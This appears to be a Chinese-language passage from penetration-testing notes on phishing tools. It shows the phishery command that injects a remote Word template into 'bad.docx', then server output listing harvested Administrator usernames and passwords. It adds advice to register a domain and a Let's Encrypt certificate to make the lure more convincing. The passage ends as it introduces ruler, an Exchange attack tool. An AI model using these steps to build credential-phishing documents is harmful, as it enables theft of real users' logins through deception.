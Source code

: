 ### phishery

phishery跟Wordsteal都是通过Word模板注入来进行HTTP Basic认证钓鱼

From:
> https://github.com/0x09AL/WordSteal

使用方法

```
➜ /home/Fuckyou/Pentest/fish/phishery1.0.2linux-amd64 >./phishery -u https://192.168.0.104/docs -i gogogo.docx -o bad.docx
[+] Opening Word document: gogogo.docx
[+] Setting Word document template to: https://192.168.0.104/docs
[+] Saving injected Word document to: bad.docx
[*] Injected Word document has been saved!
```


建议注册一个域名并签个证书　这样可以很大的提升诱惑度。
证书的话当然就是推荐Letsencrypt了
效果如图所示

![](http://7xicbb.com1.z0.glb.clouddn.com/phishing.png)

Server那边就会收到被钓人的信息

```
[*] New credentials harvested!
[HTTP] Host       : 192.168.0.104
[HTTP] Request    : OPTIONS /
[HTTP] User Agent : Microsoft Office Word 2013
[HTTP] IP Address : 192.168.0.104
[AUTH] Username   : Administrator
[AUTH] Password   : ceshi
[*] Request Received at 2017-09-13 10:18:43: HEAD https://192.168.0.104/docs
[*] New credentials harvested!
[HTTP] Host       : 192.168.0.104
[HTTP] Request    : HEAD /docs
[HTTP] User Agent : Microsoft Office Word 2013
[HTTP] IP Address : 192.168.0.104
[AUTH] Username   : Administrator
[AUTH] Password   : ceshi
[*] Request Received at 2017-09-13 10:18:43: OPTIONS https://192.168.0.104/
```

### ruler

ruler是一款专门针对Exchange的攻击工具

From:
> https://github.com/sensepost/ruler

ruler的功能挺强大的　如果对他感兴趣的话可以参照官方wiki来详细使用一下。
Example:
